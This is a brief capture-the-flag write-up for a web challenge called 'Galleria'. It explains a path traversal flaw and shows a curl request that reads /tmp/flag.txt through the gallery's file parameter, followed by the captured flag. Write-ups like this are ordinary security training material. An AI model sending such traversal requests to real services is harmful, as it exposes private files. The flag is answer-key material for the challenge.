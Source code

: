 # Galleria
![challenge](challenge.png)
### Challenge:
##### Put up some fun images for everyone in this amazing image gallery!

##### Links: [https://galleria.chal.nbctf.com](https://galleria.chal.nbctf.com)
##### Files: [galleria.zip](galleria.zip)

### Solution:

There's a path traversal vuln when choosing the file to be displayed so we can just input the path of the flag (we can get the path by looking at the source code):

```bash
$ curl https://galleria.chal.nbctf.com/gallery?file=/tmp/flag.txt
nbctf{w0nd3rh0000yyYYyYyyYyyyYyYYYyy!}
```

Flag: ```nbctf{w0nd3rh0000yyYYyYyyYyyyYyYYYyy!}```